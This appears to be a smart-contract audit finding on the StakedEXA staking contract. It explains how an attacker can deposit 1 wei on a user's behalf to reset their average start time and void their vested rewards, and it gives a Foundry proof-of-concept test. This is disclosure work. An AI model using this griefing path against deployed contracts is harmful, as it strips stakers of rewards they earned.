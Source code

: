 ### Root Cause

In `StakedExa.sol::151`, `if (time > memRefTime) avgStart[to] = block.timestamp * 1e18;` [resets](https://github.com/sherlock-audit/2024-07-exactly-stacking-contracts/blob/main/protocol/contracts/StakedEXA.sol#L151) the average start time to the current block timestamp, which may be performed by an attacker donating just 1 wei to the `to` address.

### Internal pre-conditions

1. User must stake for at least `refTime`, which is expected as this the moment the user can claim the maximum rewards.

### External pre-conditions

None.

### Attack Path

1. User stakes until reaching at least the reference time + 1.
2. Attacker deposits 1 wei to the user forcing `avgStart` to reset and discount all rewards to 0 until `minTime` passes.

### Impact

User will not receive any rewards until `minTime` and will lose to savings when withdrawing as no rewards would have vested due to `avgStart[to]` having been reset.

### PoC

Add the following test to `StakedEXA.t.sol`.
```solidity
function test_POC_anyone_can_reset_stakedTime() external {
  bool attack = true;
  uint256 assets = 1e18;
  uint256 time = refTime;

  exa.mint(address(this), assets);
  stEXA.deposit(assets, address(this));

  uint256 initTime = block.timestamp * 1e18;
  skip(time + 1);
  uint256 finalTime = block.timestamp * 1e18;

  stEXA.claim(rA);
  assertEq(stEXA.avgStart(address(this)), initTime);

  // Add some more rewards
  rA.mint(address(stEXA), initialAmount);
  stEXA.notifyRewardAmount(rA, initialAmount);

  // Attacker deposits 1 to reset start time and get rewards stuck
  if (attack) {
    address attacker = makeAddr("attacker");
    exa.mint(attacker, 1);
    vm.startPrank(attacker);
    exa.approve(address(stEXA), 1);
    stEXA.deposit(1, address(this));
    vm.stopPrank();
    assets += 1;
  }

  skip(minTime);

  assertEq(stEXA.avgStart(address(this)), attack ? finalTime : initTime, "avgStart");
```